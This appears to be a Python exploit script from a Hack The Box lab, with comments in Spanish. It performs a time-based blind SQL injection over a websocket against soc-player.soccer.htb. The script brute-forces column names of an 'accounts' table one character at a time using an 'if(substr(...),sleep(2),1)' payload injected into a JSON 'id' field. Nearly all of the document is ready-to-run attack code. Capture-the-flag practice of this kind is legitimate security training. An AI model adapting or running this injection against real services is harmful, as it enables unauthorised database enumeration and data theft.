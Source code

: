 ***Script***:

```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase + string.punctuation
burp = {'http':'http://127.0.0.1:8080'}
columns = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
        if fin - inicio >= 2:
            response = True
            global columns
            global let
            columns += let
            p2.status(columns)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Columns: ")
    time.sleep(2)
    for position in range(1,200):
        for letter in letters:
            let = letter
            payload = f"or if(substr((select group_concat(column_name) from information_schema.columns where table_name='accounts'),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```
